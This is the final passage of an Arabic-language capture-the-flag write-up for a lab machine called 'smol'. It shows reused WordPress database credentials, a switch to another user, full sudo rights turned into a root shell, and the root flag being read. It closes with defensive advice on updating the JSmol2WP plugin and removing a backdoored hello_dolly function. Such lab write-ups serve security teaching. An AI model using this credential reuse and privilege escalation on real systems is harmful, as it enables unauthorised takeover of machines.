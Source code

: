 ```bash
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'PASSWORD' );

...
```
حصلنا كلمة المرور حقت المستخدم الرابع

```bash
gege@smol:~$ su xavi
Password: 
xavi@smol:/home/gege$ sudo -l
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL
xavi@smol:/home/gege$ sudo su
root@smol:/home/gege$ cd /root
root@smol:/root$ cat root.txt
ROOT FLAG
```

## الدفاع
فيما يخص الجانب الدفاعي، أولاً لازم تحدث إضافة JSmol2WP، أما الباب الخلفي حله بسيط، احذف الدالة ()hello_dolly مع الخطاف عشان مايجيك خطأ

## الخاتمة
الحمد لله. تحدي جميل وممتع، إذا كان فيه أي ملاحظات أو أسئلة يمديك تسألني على [twitter](https://x.com/VulnerK0).